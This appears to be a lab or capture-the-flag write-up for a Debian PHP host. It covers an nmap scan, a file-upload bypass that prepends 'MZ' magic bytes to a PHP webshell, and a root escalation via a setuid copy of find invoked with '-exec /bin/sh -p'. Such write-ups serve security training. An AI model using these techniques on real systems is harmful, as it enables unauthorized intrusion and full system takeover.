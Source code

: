 
## Target Information

**IP:** 192.168.180.33 
**OS/Techno:** Debian 5, PHP

## Credentials

**User:**\
**Password:**

## Services

-   **80/tcp HTTP** → File upload functionality. Technology not obvious
    at first, fuzzing reveals backup archive with full website code.\
-   **22/tcp SSH** → Open but no valid username discovered.

## Nmap Scan

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
    |_banner: SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u2
    80/tcp open  http    Apache httpd 2.4.56 ((Debian))
    |_http-server-header: Apache/2.4.56 (Debian)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Exploitation

**File Upload:**\
The application checks for MagicBytes `MZ` (hex `4D5A`) to block PE
executables.\
By prepending `MZ` in a crafted PHP webshell, the upload was accepted
and executed.\
Gained remote shell as `www-data`.

## Privilege Escalation

Enumeration of SUID binaries:

    /opt/fileS
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    /usr/bin/chsh
    /usr/bin/chfn
    /usr/bin/fusermount
    /usr/bin/newgrp
    /usr/bin/umount
    /usr/bin/passwd
    /usr/bin/su
    /usr/bin/gpasswd
    /usr/bin/mount
    /usr/bin/sudo

The custom binary `/opt/fileS` was identified as a copy of GNU find
(setuid root).\
Abuse via GTFOBins:

    ./fileS . -exec /bin/sh -p \;

Root shell obtained.

## Result

Privilege escalation successful. Final access: **root**.
